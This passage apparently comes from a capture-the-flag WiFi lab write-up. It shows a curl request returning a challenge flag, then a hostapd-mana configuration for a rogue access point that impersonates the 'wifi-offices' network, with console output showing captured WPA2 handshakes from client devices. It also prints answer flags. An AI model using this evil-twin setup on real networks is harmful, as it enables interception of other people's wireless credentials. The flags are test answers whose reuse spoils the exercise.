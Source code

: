 ```shell
curl http://192.168.2.7
flag{QvD1ervLa4EwVh81Tfm0}
```

**Flag :**  `flag{QvD1ervLa4EwVh81Tfm0}`

## **12. What is the wifi-offices password?**

**Challenge Description :**  What is the wifi-offices password?

### Approach

I have to fake `wifi-offices` AP to intercept handshakes:

Create AP configuration:
```shell
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=wifi-offices.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

```shell
sudo hostpad-mana wifi-offices.conf
Configuration file: wifi-offices.conf
MANA: Captured WPA/2 handshakes will be written to file 'hostapd.hccapx'.
Using interface wlan1 with hwaddr 02:00:00:00:01:00 and ssid "wifi-offices"
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
wlan1: STA b4:99:ba:6f:f9:45 IEEE 802.11: authenticated
wlan1: STA b4:99:ba:6f:f9:45 IEEE 802.11: associated (aid 1)
MANA: Captured a WPA/2 handshake from: b4:99:ba:6f:f9:45
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH b4:99:ba:6f:f9:45
wlan1: STA 78:c1:a7:bf:72:46 IEEE 802.11: authenticated
wlan1: STA 78:c1:a7:bf:72:46 IEEE 802.11: associated (aid 2)
MANA: Captured a WPA/2 handshake from: 78:c1:a7:bf:72:46
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 78:c1:a7:bf:72:46
MANA: Captured a WPA/2 handshake from: b4:99:ba:6f:f9:45
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH b4:99:ba:6f:f9:45
MANA: Captured a WPA/2 handshake from: 78:c1:a7:bf:72:46
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 78:c1:a7:bf:72:46
MANA: Captured a WPA/2 handshake from: b4:99:ba:6f:f9:45
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH b4:99:ba:6f:f9:45
MANA: Captured a WPA/2 handshake from: 78:c1:a7:bf:72:46
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 78:c1:a7:bf:72:46
MANA: Captured a WPA/2 handshake from: b4:99:ba:6f:f9:45
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH b4:99:ba:6f:f9:45
MANA: Captured a WPA/2 handshake from: 78:c1:a7:bf:72:46
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 78:c1:a7:bf:72:46
wlan1: STA b4:99:ba:6f:f9:45 IEEE 802.11: deauthenticated due to local deauth request
wlan1: STA 78:c1:a7:bf:72:46 IEEE 802.11: deauthenticated due to local deauth request
```
